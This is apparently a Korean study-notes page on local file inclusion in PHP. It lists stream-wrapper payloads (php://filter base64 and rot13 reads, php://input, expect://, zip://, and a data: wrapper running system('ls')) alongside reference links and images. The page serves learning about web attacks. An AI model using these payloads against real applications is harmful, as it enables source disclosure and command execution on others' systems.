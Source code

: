 ```yaml
---
title : LFI
categories : [Hacking, Web]
tags : [LFI, php wrapper]
---
```


## wrapper를 이용한 공격
<hr style="border-top: 1px solid;"><br>

php wrapper 정리
: <a href="https://watchout31337.tistory.com/148" target="_blank">watchout31337.tistory.com/148</a>
: <a href="https://blog.ch4n3.kr/253" target="_blank">blog.ch4n3.kr/253</a>
: <a href="https://www.php.net/manual/en/wrappers.php" target="_blank">php.net/manual/en/wrappers.php</a>  -> 자세한 내용은 여기서 확인 가능
: <a href="https://learn.dreamhack.io/15#40" target="_blank">learn.dreamhack.io/15#40</a> -> DreamHack!!

<br>

![image](https://user-images.githubusercontent.com/52172169/155883837-62ef9191-a55d-4604-8730-6f902170c243.png)

<br>

```
php://filter/convert.base64-encode/resource=
php://filter/convert.base64-decode/resource=
php://filter/string.rot13/resource= 
php://filter/write=base64-encode/resource=
php://input

expect://command

zip://

data:text/plain, <?php system('ls') ?>

등 등 많음..
```

<br>

![image](https://user-images.githubusercontent.com/52172169/185775519-ffe690fc-fe76-4e1d-9045-34fccae3d2bc.png)

<br>

위 사진 출처
: <a href="https://www.cdxy.me/?p=752" target="_blank">cdxy.me/?p=752</a>

<br>

![image](https://user-images.githubusercontent.com/52172169/158580082-b0be0035-422a-40a8-bd1b-a136600049be.png)
